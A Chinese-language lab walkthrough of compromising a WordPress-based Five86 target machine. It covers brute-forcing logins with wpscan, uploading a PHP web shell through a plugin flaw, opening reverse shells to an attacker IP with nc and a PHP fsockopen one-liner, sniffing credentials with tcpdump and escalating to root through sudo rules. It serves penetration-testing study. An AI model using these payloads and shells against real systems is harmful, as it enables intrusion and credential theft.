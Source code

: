 
# 0x00环境
攻击机：kali（192.168.1.28）<br />靶机：Five86-1（192.168.1.23）


# 0x01实战

## 端口扫描
```
nmap -sV -A -p- 192.168.1.23
```
![](https://img-blog.csdnimg.cn/4271701875c745b3bdfa80ed76cced5a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Y26Ds&originHeight=692&originWidth=1280&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到开放了21和80端口


## 目录扫描
![](https://img-blog.csdnimg.cn/01e3eec6f2fa47698f11551191c7fcac.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Hcdtv&originHeight=441&originWidth=1136&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

访问80端口http服务发现是使用wordpress搭建站点<br />![](https://img-blog.csdnimg.cn/b2a6fd304ea446d6b6d4d6e11d0d99f5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=kPUM0&originHeight=590&originWidth=963&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 漏洞发现
使用wpscan扫描，扫描出来了几个用户名
```
wpscan --url http://five86-2/ -e u
```
![](https://img-blog.csdnimg.cn/0de70789b52b45cca0c537e9c74226ea.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=d51sb&originHeight=710&originWidth=1309&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

将扫描出来的用户名保存到username.txt中，把kali中的rockyou.txt.gz字典的k01内容提取出来作为密码字典进行爆破
```
wpscan --url http://five86-2/ -U username.txt -P /usr/share/wordlists/rockyou.txt
```

大约扫描了0.12%左右，差不多12分钟，扫出两个密码<br />![](https://img-blog.csdnimg.cn/8bf8da81883547f8bd7a56b1876fb9f0.png#crop=0&crop=0&crop=1&crop=1&id=Lyy2n&originHeight=169&originWidth=1797&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

尝试登录后台，使用barney账户成功登录后台<br />![](https://img-blog.csdnimg.cn/f768ffbebfac4294ae0e69adeac5a81f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=l1nnS&originHeight=477&originWidth=1120&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在浏览后台过程中发现使用了`Insert or Embed Articulate Content into WordPress Trial`插件<br />![](https://img-blog.csdnimg.cn/2ec7c1d7274c496c913e97a1d8752be0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=GaxkJ&originHeight=417&originWidth=1150&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在https://www.exploit-db.com上找到利用文档https://www.exploit-db.com/exploits/46981


## 漏洞利用
创建一个包含index.html、index.php两个文件的 .zip压缩包
```
index.html内容为：<html>hello</html>
index.php内容为：<?php echo system($_GET['cmd']); ?>
```
![](https://img-blog.csdnimg.cn/f8326916843849fa93f2ba3bfc098aa1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=etLNQ&originHeight=359&originWidth=1269&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

```
zip poc.zip index.html index.php
```
![](https://img-blog.csdnimg.cn/6bae6e183dd84c2f888df3328efa10e9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=VEwtj&originHeight=241&originWidth=1364&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

登录后台新建一篇帖子<br />![](https://img-blog.csdnimg.cn/984bc54744ec4e8c8e84a2171aab925c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Uxoiy&originHeight=830&originWidth=888&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

选择上传创建的zip文件<br />![](https://img-blog.csdnimg.cn/eb5837a0685e41a2afbbeb8dedf20ce6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=ygOY7&originHeight=303&originWidth=1024&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
![](https://img-blog.csdnimg.cn/67406b8a13e043d3ba8c9e9d551ed668.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=SOHht&originHeight=759&originWidth=918&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在浏览器访问
```
http://five86-2/wp-content/uploads/articulate_uploads/poc/index.php?cmd=whoami
```
![](https://img-blog.csdnimg.cn/162dab04cd8541ee8715c5678cdfa3a1.png#crop=0&crop=0&crop=1&crop=1&id=gLCiA&originHeight=129&originWidth=982&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

使用nc反弹shell，创建监听
```
nc -vnlp 4444
```
![](https://img-blog.csdnimg.cn/70fe6ea9913e4c4d88ed3d5e7e468caa.png#crop=0&crop=0&crop=1&crop=1&id=Vo9p3&originHeight=120&originWidth=373&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在浏览器执行
```
http://five86-2/wp-content/uploads/articulate_uploads/poc/index.php?cmd=nc%20192.168.1.28%204444%20-e%20/bin/bash
```

![](https://img-blog.csdnimg.cn/56e40f563fc643cba541d593c11b290f.png#crop=0&crop=0&crop=1&crop=1&id=GNB74&originHeight=81&originWidth=1188&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
失败

重构反弹命令
```
http://five86-2/wp-content/uploads/articulate_uploads/poc/index.php?cmd=php%20-r%20%27$sock=fsockopen(%22192.168.1.28%22,4444);$proc=proc_open(%22/bin/sh%20-i%22,%20array(0=%3E$sock,%201=%3E$sock,%202=%3E$sock),$pipes);%27
```

成功反弹<br />![](https://img-blog.csdnimg.cn/d26aa1a2c1454f4c98dec2402a3eca4d.png#crop=0&crop=0&crop=1&crop=1&id=I0lbM&originHeight=163&originWidth=798&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 提权
查看系统内核
```
cat /proc/version
cat /etc/issue
```

![](https://img-blog.csdnimg.cn/8a19c952ded241d29cfd3b58f03d692b.png#crop=0&crop=0&crop=1&crop=1&id=N9N9A&originHeight=128&originWidth=1407&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查找漏洞，对提权没有什么帮助<br />![](https://img-blog.csdnimg.cn/dd6602d26bb44c5a8a1c44c2c5f542a0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=ZLYYR&originHeight=250&originWidth=1462&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在home目录下发现了stephen账户，而我们在前面爆破出Stephen的密码<br />![](https://img-blog.csdnimg.cn/7de2106f443b486fa5d29730b1a1cb06.png#crop=0&crop=0&crop=1&crop=1&id=jOEiF&originHeight=272&originWidth=224&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

使用stephen账户登录
```
su stephen
```

![](https://img-blog.csdnimg.cn/612099cffa524b45a038fa174a928430.png#crop=0&crop=0&crop=1&crop=1&id=IEbDG&originHeight=187&originWidth=868&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到用户stephen在pcap组中，我就想着看看能不能找到一些pcap包或者抓一些数据包看看
```
getcap -r / 2>/dev/null
```

![](https://img-blog.csdnimg.cn/3eb8efc1fb7040c0ad3982074b5e17f6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=HYlHX&originHeight=292&originWidth=1357&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

输入tcpdump -D来查看查看可以用来抓包的接口
```
tcpdump -D
```

![](https://img-blog.csdnimg.cn/74de314f5ecb453c97dff392a6ee1e48.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=WBqlq&originHeight=263&originWidth=866&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

一个个的来看，在veth7c42377中找到敏感信息
```
timeout 120 tcpdump -w 1.pcap -i veth7c42377
timeout 120是指2分钟
-w是将结果输出到文件
-i是指定监听端口
```

![](https://img-blog.csdnimg.cn/b43ff3a50e614a91bcc9d619a8bfafed.png#crop=0&crop=0&crop=1&crop=1&id=xrXu9&originHeight=189&originWidth=1116&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看抓取到的数据包
```
tcpdump -r 1.pcap
-r是从给定的流量包读取数据
```

![](https://img-blog.csdnimg.cn/be36097c087a40c9a6b4ee58feefb226.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Txhs0&originHeight=794&originWidth=1019&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
得到了用户名paul和密码 esomepasswford

登录用户paul<br />![](https://img-blog.csdnimg.cn/5e33feae312d43b58f658096260eac63.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=ECRUz&originHeight=207&originWidth=801&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看权限
```
sudo -l
```

![](https://img-blog.csdnimg.cn/63cb236755c9418c997c8a4f02a23c37.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=JbPGE&originHeight=238&originWidth=1177&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

看到可以无密码使用peter的service命令，也就是说可以直接执行peter的/bin/bash
```
sudo -u peter service bin/bash
```

![](https://img-blog.csdnimg.cn/d764dc9b3d054779970a9c87fe347a41.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=O9URE&originHeight=319&originWidth=1500&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看peter用户的权限
```
sudo -l
```
![](https://img-blog.csdnimg.cn/3c1a8ee1f22348e7b9369cc80caeca4f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=qCcVc&originHeight=270&originWidth=1176&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以以root身份无密码运行passwd命令

使用passwd命令修改root的密码
```
sudo passwd root
```
![](https://img-blog.csdnimg.cn/23fb607c22874141b75f22f3ae9bc50a.png#crop=0&crop=0&crop=1&crop=1&id=bWnzM&originHeight=187&originWidth=709&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

登录root账户
```
su root
```
![](https://img-blog.csdnimg.cn/b0ed59099ed84116ac16856bd9722d8b.png#crop=0&crop=0&crop=1&crop=1&id=E1F4q&originHeight=183&originWidth=659&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## final-flag
在root根目录下找到flag<br />![](https://img-blog.csdnimg.cn/469e431546eb45808b64e321f49dfa4d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=RyDZQ&originHeight=562&originWidth=1187&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
